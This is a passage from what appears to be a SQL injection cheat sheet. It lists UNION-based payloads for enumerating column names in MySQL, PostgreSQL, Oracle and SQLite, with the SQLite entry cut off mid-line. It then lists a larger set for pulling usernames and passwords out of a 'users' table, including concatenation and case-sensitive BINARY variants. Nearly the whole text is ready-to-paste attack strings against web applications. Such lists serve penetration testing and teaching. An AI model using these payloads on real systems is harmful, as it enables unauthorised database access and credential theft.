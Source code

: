 ```txt
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='table_name'-- -
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='table_name'#
```

### PostgreSQL

```txt
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='table_name'--
```

### Oracle

```txt
' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='table_name'--
```

### SQLite

```html
' UNION SELECT column
```

<br /><br />

## List Information in the Table

Get information in the table.  
For instance, suppose we want to get the username and password from the table named 'users'.

```txt
' UNION SELECT username,password FROM users--
' UNION SELECT username,password FROM users-- -

' UNION SELECT username || '~' || password FROM users--
' UNION SELECT username || '~' || password FROM users-- -

' UNION SELECT NULL,username || '~' || password FROM users--
' UNION SELECT NULL,username || '~' || password FROM users-- -

' UNION SELECT username,password FROM users WHERE username='admin' AND password='password1'--
' UNION SELECT username,password FROM users WHERE username='admin' AND password='password1'-- -

' UNION SELECT username,password FROM users WHERE username='admin' OR password='password1'--
' UNION SELECT username,password FROM users WHERE username='admin' OR password='password1'-- -

' UNION SELECT username,password FROM users WHERE username='admin' AND password LIKE 'pas%'--
' UNION SELECT username,password FROM users WHERE username='admin' AND password LIKE 'pas%'-- -
```

**BINARY**: Sensitive to upper case and lower case.

```txt
' UNION SELECT username,password FROM users WHERE username='admin' AND BINARY password='PassWord'--
' UNION SELECT username,password FROM users WHERE username='admin' AND BINARY password='PassWord'-- -
```
